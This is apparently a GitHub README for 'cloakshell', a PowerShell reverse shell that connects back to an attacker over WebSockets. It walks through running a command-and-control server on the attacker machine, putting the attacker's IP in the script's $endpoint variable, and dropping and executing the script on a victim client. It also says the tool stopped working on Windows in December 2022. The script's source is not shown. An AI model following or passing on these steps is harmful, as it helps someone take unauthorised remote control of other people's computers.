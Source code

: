 # cloakshell
Powershell reverse shell via WebSockets

### As of December 15, 2022, cloakshell has stopped working on Windows machines. Tested against Windows 10 and 11.

#### Quickstart

On the attacker machine install the dependencies and run the command and control server.

```
pip install -r requirements.txt
python control.py
```

In cloakshell.ps1, change the IP address in the `$endpoint` variable to your attacker's IP address. Now drop it on the client and execute it.

```
.\cloakshell.ps1
```

That's it! You have a (somewhat) functional reverse shell over websockets.

